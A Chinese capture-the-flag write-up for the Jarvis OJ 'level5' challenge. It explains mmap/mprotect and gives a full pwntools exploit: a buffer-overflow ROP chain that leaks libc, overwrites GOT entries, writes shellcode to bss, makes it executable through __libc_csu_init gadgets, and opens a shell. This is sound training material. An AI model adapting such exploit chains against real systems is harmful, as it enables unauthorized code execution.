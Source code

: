 # [XMAN]level5

从上周六开始看的一道题，很抱歉鸽了几天，我实在是太菜了

## 分析：

这道题本来难度并不大，文件与level3_x64相同，但是这题的要求是假设``system``函数和``execve``函数被禁用，用``mmap()``和``mprotect()``函数完成

### mmap

```c
void *mmap( void *start , size_t length , int prot , int flags , int fd , off_t offsize)
```

参数start：

- 指向欲映像的内存起始地址，通常设为NULL，代表让系统自动标明地址，映像成功后返回该地址。

参数length：

- 代表将文件中多大的部分映像到内存。

参数prot：映像区域的保护方式。可以为以下几种方式的组合：

- PROT_EXEC映像区域可被执行
- PROT_READ映像区域可被读取
- PROT_WRITE映像区域可被写入
- PROT_NONE映像区域不能存取

参数flags：影响映像区域的各种特性。在调用mmap（）时必须要指定MAP_SHARED或MAP_PRIVATE。

- MAP_FIXED：如果参数start所指的地址无法成功建立映像时，则放弃映像，不对地址做修正。通常不鼓励用此旗标。
- MAP_SHARED：对映像区域的写入数据会复制回文件内，而且允许其他映像该文件的进程共享，原来的文件会改变。
- MAP_PRIVATE：对映像区域的写入操作会产生一个映像文件的复制，即私人的“写入时复制”（copy on write）对此区域作的任何修改都不会写回原来的文件内容。当共享的对象的虚拟存储区域为私有对象时，修改只会被本进程中改变。*（学的操作系统终于派上用场了）*
- MAP_ANONYMOUS：建立匿名映像。此时会忽略参数fd，不涉及文件，而且映像区域无法和其他进程共享。
- MAP_DENYWRITE：只允许对映像区域的写入操作，其他对文件直接写入的操作将会被拒绝。
- MAP_LOCKED：将映像区域锁定住，这表示该区域不会被置换（swap）。
  参数fd：
- 要映像到内存中的文件描述符。如果使用匿名内存映像时，即flags中设置了MAP_ANONYMOUS，fd设为-1。有些系统不支持匿名内存映像，则可以使用fopen打开/dev/zero文件，然后对该文件进行映像，可以同样达到匿名内存映像的效果。
  参数offset：
- 文件映像的偏移量，通常设置为0，代表从文件最前方开始对应，offset必须是分页大小的整数倍。

返回值：

- 若映像成功则返回映像区的内存起始地址，否则返回MAP_FAILED（－1），错误原因存于errno中。

### mprotect

```c
int mprotect(const void *start, size_t len, int prot);
```

在Linux中，``mprotect()``函数可以用来修改一段指定内存区域的保护属性。
``mprotect()``函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值,就是常见的0x111对应执行，写，读权限

``mmap()``的参数过多，跟着网上的wp用``mprotect()``完成了这一题

``mprotect()``有三个参数，这里需要使用到``__libc_csu_init``结尾的``gadget``来进行传参

## 思路：

首先与level3_x64相同，通过泄露libc地址得到``mprotect()``的地址

接着将``mprotect()``和bss段写入got表中

然后把shellcode写入bss段

最后调用``mprotect()``函数，修改bss段的权限并返回到bss段运行shellcode

### 问题：

一开始准备使用got表中数值为0的地址，失败多次之后改用``__libc_start_main``的got表位

另外，不知道为什么要用pause()，好像是要维持线程

还有，这题的shellcode需要调整参数，一开始没有注意到一直出错

## exp:

```python
from pwn import *

context(log_level = 'debug',os = 'linux',arch = 'amd64')

#n = process('./level5')
n = remote('pwn2.jarvisoj.com', 9884)
#n = remote("localhost",12345)

elf = ELF('./level5')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc-2.19.so')

offset = 0x88

read_got = elf.got['read']
read_plt = elf.symbols['read']
write_plt = elf.symbols['write']
main_addr = elf.symbols['main']
bss_addr = elf.bss()
shellcode = asm(shellcraft.amd64.sh())

pop_rdi_ret_addr = 0x00000000004006b3
pop_rsi_pop_r15_ret_addr = 0x00000000004006b1

payload1 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(1) + p64(pop_rsi_pop_r15_ret_addr) +  p64(read_got) + 'deadbuff' + p64(write_plt) + p64(main_addr)

n.recvuntil("Input:\n")
n.send(payload1)
sleep(0.2)
pause()
read_addr = u64(n.recv(8))

libc.address = read_addr - libc.symbols['read']

mprotect_addr = libc.symbols['mprotect']
print 'mprotect_addr = ' + hex(mprotect_addr)

#write the mprotect to got table
libc_start_main_got = elf.got['__libc_start_main']
payload2 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(libc_start_main_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload2)
sleep(0.2)
n.send(p64(mprotect_addr))
sleep(0.2)
pause()

#write the shellcode to bss
payload3 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(bss_addr) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload3)
sleep(0.2)
n.send(shellcode)
sleep(0.2)
pause()

#write the bss to got table
gmon_start_got = elf.got['__gmon_start__']
payload4 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(gmon_start_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload4)
sleep(0.2)
n.send(p64(bss_addr))
sleep(0.2)
pause()

csu_start = 0x4006AA
csu_end = 0x400690

payload5 = 'a' * offset + p64(csu_start) + p64(0) + p64(1) + p64(libc_start_main_got) + p64(7) + p64(0x1000) + p64(0x600000) + p64(csu_end)
payload5 += 'deadbuff' + p64(0) + p64(1) + p64(gmon_start_got) + p64(0) +p64(0) + p64(0) + p64(csu_end)
n.send(payload5)
sleep(0.2)
pause()

n.interactive()
```

